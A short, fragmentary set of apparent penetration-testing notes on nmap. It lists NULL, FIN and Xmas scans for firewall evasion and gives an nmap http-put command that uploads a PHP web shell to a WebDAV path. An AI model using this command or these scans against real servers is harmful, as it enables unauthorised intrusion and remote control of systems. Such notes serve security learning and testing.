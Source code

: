 # 


SYN stealth scan:

Types of port scans for firewall evasions: 'NULL (-sN)', 'FIN (-sF)', 'Xmas (-sX)'

```
>>> nmap -p 80 --script http-put --script-args http-put.url='/dav/shell.php',http-put.file='./shell.php'
```

